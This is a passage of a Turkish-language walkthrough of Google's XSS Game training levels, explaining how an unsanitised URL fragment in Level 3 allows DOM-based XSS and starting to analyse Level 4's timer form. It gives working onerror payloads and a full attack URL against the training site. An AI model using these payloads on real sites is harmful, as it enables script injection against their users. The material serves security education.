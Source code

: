 Bunun için burayı inceliyoruz: `html += "<img src='/static/level3/cloud" + num + ".jpg' />";`

Burada bizim input olarak girdiğimiz değer integer'a çevrilmeden direkt olarak yazılmış.

Tıpkı Level 2 deki örnekte olduğu gibi düzenleyebilir miyiz? 2. leveldeki şu şekildeydi: `<img src="x" onerror="alert(1);">`

Şimdiki örnekte buraya gelen veri şu şekilde olsaydı: `html += "<img src='/static/level3/cloud" + num + ".jpg' onerror="alert(1)"/>";`

Javascript kodumuz çalışacaktı.

Bunu yapmak için `#` karakterinden sonra `'onerror='alert(1)'` yazıp gönderirsek arkaplanda şu şekilde görünecek:

`html += "<img src='/static/level3/cloud" + ''onerror='alert(1)'' + ".jpg' />";`

Yani return edilecek html kodu şu şekilde olacaktı:

`<img src='/static/level3/cloud'onerror='alert(1)'.jpg' />";`

![resim](https://i.ibb.co/59gx01w/resim.png)

O zaman url'yi şu şekilde değiştirsek: `https://xss-game.appspot.com/level3/frame#'onerror='alert(1)'` ve bu url'ye gidersek:

![resim](https://i.ibb.co/2nDrw9V/resim.png)

Burada payloadı `' onerror='alert(1)//` olarak ayarlasaydık return edilecek html şu şekilde olurdu:

`<img src='/static/level3/cloud' onerror='alert(1)//.jpg' />";`

Bu kullanımda ise `//` karakterleri ile `.jpg` kısmı yorum haline getiriliyor. Bu yöntem de çalışırdı.

Kullandığımız payload: `'onerror='alert(1)'`

Anahtar kelime: `DOM based XSS`

## Level 4

![resim](https://i.ibb.co/YtBd1GY/resim.png)

index.html'de şu şekilde bir form var:

```html
<form action="" method="GET">
  <input id="timer" name="timer" value="3">
  <input id="button" type="submit" value="Create timer"> </form>
</form>
```

buradaki `timer` a girilen değer, timer.html'e şu şekilde aktarılıyor:

```html
<img src="/static/loading.gif" onload="startTimer('{{ timer }}');" />
```
